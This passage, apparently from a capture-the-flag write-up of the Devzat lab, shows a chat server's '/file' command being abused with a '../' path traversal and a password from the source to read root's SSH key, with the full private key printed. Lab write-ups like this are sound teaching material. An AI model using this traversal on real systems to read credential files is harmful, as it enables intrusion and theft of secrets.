 ```
		hangman     = commandInfo{"hangman", "Play hangman", hangmanCommand, 0, false, []string{"hang"}}
		shrug       = commandInfo{"shrug", "Drops a shrug emoji", shrugCommand, 1, false, nil}
		asciiArt    = commandInfo{"ascii-art", "Bob ross with text", asciiArtCommand, 1, false, nil}
		exampleCode = commandInfo{"example-code", "Hello world!", exampleCodeCommand, 1, false, nil}
		file        = commandInfo{"file", "Paste a files content directly to chat [alpha]", fileCommand, 1, false, nil}
	)
	commands = []commandInfo{clear, message, users, all, exit, bell, room, kick, id, _commands, nick, color, timezone, emojis, help, tictactoe, hangman, shrug, asciiArt, exampleCode, file}
}
...[snip]...
```

Connecting to the dev instance of devzat we try to read root's ssh key.

```
catherine@devzat:~$ ssh 127.0.0.1 -p 8443
patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now 👔
patrick: That's perfectly fine 👍  You'll need a password which you can gather from the source. I left it in our default backups location.
catherine: k
patrick: I also put the main so you could diff main dev if you want.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. Consider it alpha state, though. Might not be secure yet. See ya!
devbot: patrick has left the chat
Welcome to the chat. There are no more users
devbot: catherine has joined the chat
catherine: /file /root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/.ssh/id_rsa does not exist!
```

The error message tells us how the path get's concatenated, so we can simply go a directory up and are lucky to find root's private ssh key exists in the default location on the machine.

```
catherine: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
catherine:
```
